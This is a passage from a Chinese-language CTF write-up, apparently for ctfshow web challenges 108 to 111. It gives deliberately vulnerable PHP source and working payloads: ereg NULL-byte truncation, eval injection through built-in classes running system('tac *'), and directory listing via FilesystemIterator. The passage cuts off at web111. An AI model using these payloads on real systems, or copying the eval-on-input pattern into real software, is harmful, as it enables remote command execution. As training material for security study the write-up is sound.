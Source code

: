 > ereg()函数用指定的模式搜索一个字符串中指定的字符串,如果匹配成功返回true,否则,则返回false。

ereg函数存在NULL截断漏洞，导致了正则过滤被绕过，所以可以使用%00截断正则匹配，0x36d的十进制为877，所以：
payload：?c=a%00778
## web109（Reflectionclass）
```php
<?php

highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }
}
?>
```
用反射类仍可以做，详见web101
payload：/?v1=Reflectionclass&v2=system('tac *')
也可以用异常处理类：/?v1=Exception&v2=system('tac *')
详见：[PHP异常处理（Exception）](http://c.biancheng.net/view/6253.html)
## web110（php内置类）
```php
<?php


highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

}

?>
```
考察：php内置类 利用 FilesystemIterator 获取指定目录下的所有文件[https://www.php.net/manual/zh/class.filesystemiterator.php](https://www.php.net/manual/zh/class.filesystemiterator.php)
getcwd()函数 获取当前工作目录 返回当前工作目录 payload: ?v1=FilesystemIterator&v2=getcwd
最后访问fl36dga.txt即可
## web111（变量覆盖）
```php
<?php
  
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

```